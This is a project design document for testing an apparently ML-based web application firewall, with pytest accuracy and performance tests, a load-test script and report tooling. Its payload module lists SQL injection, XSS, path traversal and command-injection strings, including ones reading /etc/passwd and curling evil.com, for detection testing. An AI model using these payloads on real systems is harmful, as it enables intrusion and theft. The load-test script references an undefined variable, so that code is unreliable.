

# Phase 9: Testing, Validation & Performance Tuning

## Overview
This phase focuses on comprehensive testing, accuracy validation, and performance optimization. We'll create test suites with malicious payloads, measure detection accuracy, optimize model performance, and ensure the system meets production requirements.

## Objectives
- Create comprehensive test suite with malicious payloads
- Measure detection accuracy (TPR, FPR, Precision, Recall)
- Test false positive rate on benign traffic
- Performance testing (latency, throughput)
- Load testing with concurrent requests
- Model optimization (quantization, pruning)
- Create evaluation report

## Architecture



## Detailed Implementation

### 9.1 Test Payload Collection

```python
# tests/payloads/malicious_payloads.py
"""
Collection of malicious payloads for testing WAF detection
Based on Awesome WAF project patterns
"""

SQL_INJECTION_PAYLOADS = [
    "1' OR '1'='1",
    "1' UNION SELECT NULL--",
    "admin'--",
    "' OR 1=1--",
    "1' AND 1=1--",
    "1' AND 1=2--",
    "1' OR SLEEP(5)--",
    "1'; DROP TABLE users--",
    "1' UNION SELECT user, password FROM users--",
    "1' OR '1'='1' /*",
    "1' OR '1'='1' #",
    "1' OR '1'='1' --",
    "1' OR '1'='1' UNION SELECT NULL, NULL--",
    "1' OR '1'='1' AND (SELECT SUBSTRING(@@version,1,1))='5'--",
    "1' OR '1'='1' AND (SELECT SUBSTRING(LOAD_FILE('/etc/passwd'),1,1))='r'--",
]

XSS_PAYLOADS = [
    "<script>alert('XSS')</script>",
    "",
    "<svg onload=alert('XSS')>",
    "<body onload=alert('XSS')>",
    "javascript:alert('XSS')",
    "<iframe src=javascript:alert('XSS')>",
    "<input onfocus=alert('XSS') autofocus>",
    "<select onfocus=alert('XSS') autofocus>",
    "<textarea onfocus=alert('XSS') autofocus>",
    "<keygen onfocus=alert('XSS') autofocus>",
    "<video><source onerror=alert('XSS')>",
    "<audio src=x onerror=alert('XSS')>",
    "<details open ontoggle=alert('XSS')>",
    "<marquee onstart=alert('XSS')>",
    "<div onmouseover=alert('XSS')>",
]

RCE_PAYLOADS = [
    "; cat /etc/passwd",
    "| cat /etc/passwd",
    "&& cat /etc/passwd",
    "`cat /etc/passwd`",
    "$(cat /etc/passwd)",
    "; ls -la",
    "| ls -la",
    "&& ls -la",
    "; id",
    "| id",
    "&& id",
    "; whoami",
    "| whoami",
    "&& whoami",
    "; uname -a",
    "| uname -a",
    "&& uname -a",
]

PATH_TRAVERSAL_PAYLOADS = [
    "../../../etc/passwd",
    "..\\..\\..\\windows\\system32\\config\\sam",
    "....//....//etc/passwd",
    "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd",
    "..%2F..%2F..%2Fetc%2Fpasswd",
    "/etc/passwd",
    "C:\\Windows\\System32\\config\\sam",
]

COMMAND_INJECTION_PAYLOADS = [
    "; ping -c 4 127.0.0.1",
    "| ping -c 4 127.0.0.1",
    "&& ping -c 4 127.0.0.1",
    "; curl http://evil.com",
    "| curl http://evil.com",
    "&& curl http://evil.com",
]

ALL_MALICIOUS_PAYLOADS = (
    SQL_INJECTION_PAYLOADS +
    XSS_PAYLOADS +
    RCE_PAYLOADS +
    PATH_TRAVERSAL_PAYLOADS +
    COMMAND_INJECTION_PAYLOADS
)
```

### 9.2 Accuracy Testing

```python
# tests/accuracy/test_detection_accuracy.py
import pytest
from src.integration.waf_service import WAFService
from tests.payloads.malicious_payloads import ALL_MALICIOUS_PAYLOADS

class TestDetectionAccuracy:
    """Test WAF detection accuracy"""
    
    @pytest.fixture
    def waf_service(self):
        """Initialize WAF service"""
        service = WAFService(
            model_path="models/checkpoints/best_model.pt",
            vocab_path="models/vocabularies/http_vocab.json",
            threshold=0.5
        )
        return service
    
    def test_sql_injection_detection(self, waf_service):
        """Test SQL injection detection"""
        from tests.payloads.malicious_payloads import SQL_INJECTION_PAYLOADS
        
        detected = 0
        total = len(SQL_INJECTION_PAYLOADS)
        
        for payload in SQL_INJECTION_PAYLOADS:
            result = waf_service.check_request(
                method="GET",
                path="/api/users",
                query_params={"id": payload}
            )
            
            if result['is_anomaly']:
                detected += 1
        
        detection_rate = detected / total
        print(f"SQL Injection Detection Rate: {detection_rate:.2%}")
        
        assert detection_rate >= 0.90, f"Detection rate {detection_rate:.2%} below 90%"
    
    def test_xss_detection(self, waf_service):
        """Test XSS detection"""
        from tests.payloads.malicious_payloads import XSS_PAYLOADS
        
        detected = 0
        total = len(XSS_PAYLOADS)
        
        for payload in XSS_PAYLOADS:
            result = waf_service.check_request(
                method="GET",
                path="/search",
                query_params={"q": payload}
            )
            
            if result['is_anomaly']:
                detected += 1
        
        detection_rate = detected / total
        print(f"XSS Detection Rate: {detection_rate:.2%}")
        
        assert detection_rate >= 0.90, f"Detection rate {detection_rate:.2%} below 90%"
    
    def test_rce_detection(self, waf_service):
        """Test RCE detection"""
        from tests.payloads.malicious_payloads import RCE_PAYLOADS
        
        detected = 0
        total = len(RCE_PAYLOADS)
        
        for payload in RCE_PAYLOADS:
            result = waf_service.check_request(
                method="POST",
                path="/api/execute",
                body=payload
            )
            
            if result['is_anomaly']:
                detected += 1
        
        detection_rate = detected / total
        print(f"RCE Detection Rate: {detection_rate:.2%}")
        
        assert detection_rate >= 0.85, f"Detection rate {detection_rate:.2%} below 85%"
    
    def test_false_positive_rate(self, waf_service):
        """Test false positive rate on benign traffic"""
        # Load benign requests
        benign_requests = self._load_benign_requests()
        
        false_positives = 0
        total = len(benign_requests)
        
        for request in benign_requests:
            result = waf_service.check_request(
                method=request['method'],
                path=request['path'],
                query_params=request.get('query_params', {})
            )
            
            if result['is_anomaly']:
                false_positives += 1
        
        false_positive_rate = false_positives / total if total > 0 else 0.0
        print(f"False Positive Rate: {false_positive_rate:.2%}")
        
        assert false_positive_rate <= 0.05, f"FPR {false_positive_rate:.2%} above 5%"
    
    def _load_benign_requests(self):
        """Load benign request samples"""
        # Load from training data or generate
        return [
            {"method": "GET", "path": "/api/users", "query_params": {"page": "1"}},
            {"method": "POST", "path": "/api/login", "body": '{"username": "user", "password": "pass"}'},
            # Add more benign samples
        ]
```

### 9.3 Performance Testing

```python
# tests/performance/test_throughput.py
import pytest
import asyncio
import time
import statistics
from src.inference.async_waf_service import AsyncWAFService

class TestPerformance:
    """Test WAF performance"""
    
    @pytest.fixture
    def waf_service(self):
        """Initialize async WAF service"""
        service = AsyncWAFService(
            model_path="models/checkpoints/best_model.pt",
            vocab_path="models/vocabularies/http_vocab.json",
            max_workers=4,
            batch_size=32
        )
        return service
    
    @pytest.mark.asyncio
    async def test_latency(self, waf_service):
        """Test request latency"""
        latencies = []
        
        for _ in range(100):
            start = time.time()
            await waf_service.check_request_async(
                method="GET",
                path="/api/test",
                query_params={}
            )
            latency = (time.time() - start) * 1000  # ms
            latencies.append(latency)
        
        avg_latency = statistics.mean(latencies)
        p95_latency = statistics.quantiles(latencies, n=20)[18]  # 95th percentile
        p99_latency = statistics.quantiles(latencies, n=100)[98]  # 99th percentile
        
        print(f"Average Latency: {avg_latency:.2f}ms")
        print(f"P95 Latency: {p95_latency:.2f}ms")
        print(f"P99 Latency: {p99_latency:.2f}ms")
        
        assert avg_latency < 100, f"Average latency {avg_latency:.2f}ms too high"
        assert p95_latency < 200, f"P95 latency {p95_latency:.2f}ms too high"
    
    @pytest.mark.asyncio
    async def test_throughput(self, waf_service):
        """Test request throughput"""
        num_requests = 1000
        concurrent = 100
        
        start_time = time.time()
        
        # Create concurrent requests
        tasks = []
        for i in range(num_requests):
            task = waf_service.check_request_async(
                method="GET",
                path=f"/api/test{i}",
                query_params={}
            )
            tasks.append(task)
            
            # Batch concurrent requests
            if len(tasks) >= concurrent:
                await asyncio.gather(*tasks)
                tasks = []
        
        # Process remaining
        if tasks:
            await asyncio.gather(*tasks)
        
        elapsed = time.time() - start_time
        throughput = num_requests / elapsed
        
        print(f"Throughput: {throughput:.2f} requests/second")
        print(f"Total time: {elapsed:.2f}s")
        
        assert throughput >= 50, f"Throughput {throughput:.2f} req/s too low"
    
    @pytest.mark.asyncio
    async def test_concurrent_requests(self, waf_service):
        """Test concurrent request handling"""
        num_concurrent = 200
        
        start_time = time.time()
        
        tasks = [
            waf_service.check_request_async(
                method="GET",
                path=f"/api/test{i}",
                query_params={}
            )
            for i in range(num_concurrent)
        ]
        
        results = await asyncio.gather(*tasks)
        elapsed = time.time() - start_time
        
        print(f"Processed {num_concurrent} concurrent requests in {elapsed:.2f}s")
        print(f"Average: {elapsed/num_concurrent*1000:.2f}ms per request")
        
        assert len(results) == num_concurrent
        assert elapsed < 10.0, "Concurrent processing too slow"
```

### 9.4 Load Testing Script

```python
# scripts/load_test.py
import asyncio
import aiohttp
import time
import statistics
from loguru import logger

async def send_request(session, url, request_data):
    """Send single request"""
    start = time.time()
    try:
        async with session.post(url, json=request_data, timeout=5.0) as response:
            result = await response.json()
            latency = (time.time() - start) * 1000
            return {
                'status': response.status,
                'latency': latency,
                'anomaly_detected': result.get('is_anomaly', False)
            }
    except Exception as e:
        return {
            'status': 'error',
            'latency': (time.time() - start) * 1000,
            'error': str(e)
        }

async def load_test(url: str, num_requests: int, concurrent: int):
    """Run load test"""
    logger.info(f"Starting load test: {num_requests} requests, {concurrent} concurrent")
    
    async with aiohttp.ClientSession() as session:
        tasks = []
        start_time = time.time()
        
        for i in range(num_requests):
            request_data = {
                'method': 'GET',
                'path': f'/api/test{i}',
                'query_params': {}
            }
            
            task = send_request(session, url, request_data)
            tasks.append(task)
            
            # Control concurrency
            if len(tasks) >= concurrent:
                await asyncio.gather(*tasks)
                tasks = []
        
        # Process remaining
        if tasks:
            await asyncio.gather(*tasks)
        
        elapsed = time.time() - start_time
    
    # Calculate metrics
    latencies = [r['latency'] for r in results if 'latency' in r]
    
    if latencies:
        avg_latency = statistics.mean(latencies)
        p95_latency = statistics.quantiles(latencies, n=20)[18]
        throughput = num_requests / elapsed
        
        logger.info(f"Load test complete:")
        logger.info(f"  Total requests: {num_requests}")
        logger.info(f"  Total time: {elapsed:.2f}s")
        logger.info(f"  Throughput: {throughput:.2f} req/s")
        logger.info(f"  Avg latency: {avg_latency:.2f}ms")
        logger.info(f"  P95 latency: {p95_latency:.2f}ms")

if __name__ == "__main__":
    import argparse
    
    parser = argparse.ArgumentParser()
    parser.add_argument("--url", default="http://localhost:8000/check")
    parser.add_argument("--requests", type=int, default=1000)
    parser.add_argument("--concurrent", type=int, default=100)
    
    args = parser.parse_args()
    
    asyncio.run(load_test(args.url, args.requests, args.concurrent))
```

### 9.5 Model Optimization

```python
# scripts/optimize_model.py
import torch
from src.inference.optimization import optimize_model, load_optimized_model
from loguru import logger

def optimize_and_save(model_path: str, output_path: str, method: str = "quantization"):
    """Optimize model and save"""
    logger.info(f"Optimizing model: {model_path}")
    
    # Load and optimize
    optimized_model = load_optimized_model(model_path, optimization=method)
    
    # Save optimized model
    torch.save({
        'model_state_dict': optimized_model.state_dict(),
        'optimized': True,
        'optimization_method': method
    }, output_path)
    
    logger.info(f"Optimized model saved: {output_path}")
    
    # Compare sizes
    import os
    original_size = os.path.getsize(model_path) / (1024 * 1024)  # MB
    optimized_size = os.path.getsize(output_path) / (1024 * 1024)  # MB
    
    logger.info(f"Original size: {original_size:.2f} MB")
    logger.info(f"Optimized size: {optimized_size:.2f} MB")
    logger.info(f"Reduction: {(1 - optimized_size/original_size)*100:.1f}%")

if __name__ == "__main__":
    import argparse
    
    parser = argparse.ArgumentParser()
    parser.add_argument("--model_path", required=True)
    parser.add_argument("--output_path", required=True)
    parser.add_argument("--method", default="quantization", choices=["quantization", "torchscript"])
    
    args = parser.parse_args()
    
    optimize_and_save(args.model_path, args.output_path, args.method)
```

### 9.6 Evaluation Report Generator

```python
# scripts/generate_report.py
import json
from datetime import datetime
from pathlib import Path

def generate_evaluation_report(results: dict, output_path: str):
    """Generate evaluation report"""
    report = {
        'timestamp': datetime.now().isoformat(),
        'summary': {
            'total_tests': results.get('total_tests', 0),
            'passed': results.get('passed', 0),
            'failed': results.get('failed', 0),
            'accuracy': results.get('accuracy', 0.0)
        },
        'accuracy_metrics': {
            'true_positive_rate': results.get('tpr', 0.0),
            'false_positive_rate': results.get('fpr', 0.0),
            'precision': results.get('precision', 0.0),
            'recall': results.get('recall', 0.0),
            'f1_score': results.get('f1_score', 0.0)
        },
        'performance_metrics': {
            'avg_latency_ms': results.get('avg_latency', 0.0),
            'p95_latency_ms': results.get('p95_latency', 0.0),
            'throughput_req_per_sec': results.get('throughput', 0.0)
        },
        'detection_by_category': results.get('detection_by_category', {}),
        'details': results.get('details', [])
    }
    
    # Save report
    Path(output_path).parent.mkdir(parents=True, exist_ok=True)
    with open(output_path, 'w') as f:
        json.dump(report, f, indent=2)
    
    # Print summary
    print("\n" + "="*50)
    print("EVALUATION REPORT")
    print("="*50)
    print(f"Accuracy: {report['summary']['accuracy']:.2%}")
    print(f"TPR: {report['accuracy_metrics']['true_positive_rate']:.2%}")
    print(f"FPR: {report['accuracy_metrics']['false_positive_rate']:.2%}")
    print(f"Precision: {report['accuracy_metrics']['precision']:.2%}")
    print(f"Recall: {report['accuracy_metrics']['recall']:.2%}")
    print(f"F1 Score: {report['accuracy_metrics']['f1_score']:.2%}")
    print(f"\nPerformance:")
    print(f"Avg Latency: {report['performance_metrics']['avg_latency_ms']:.2f}ms")
    print(f"P95 Latency: {report['performance_metrics']['p95_latency_ms']:.2f}ms")
    print(f"Throughput: {report['performance_metrics']['throughput_req_per_sec']:.2f} req/s")
    print("="*50)
```

## Configuration

```yaml
# config/testing.yaml
testing:
  accuracy:
    min_detection_rate: 0.90
    max_false_positive_rate: 0.05
    test_categories:
      - sql_injection
      - xss
      - rce
      - path_traversal
  
  performance:
    max_avg_latency_ms: 100
    max_p95_latency_ms: 200
    min_throughput_req_per_sec: 50
  
  load_testing:
    num_requests: 1000
    concurrent: 100
    duration_seconds: 60
```

## Deliverables Checklist

- [ ] Comprehensive test suite created
- [ ] Accuracy tests implemented
- [ ] Performance tests implemented
- [ ] Load testing script
- [ ] Model optimization scripts
- [ ] Evaluation report generator
- [ ] Test results documented

## Next Steps

After completing Phase 9, you should have:
- Validated model accuracy
- Performance benchmarks
- Optimized model
- Comprehensive test results

**Proceed to Phase 10:** Deployment, Monitoring & Demo Preparation
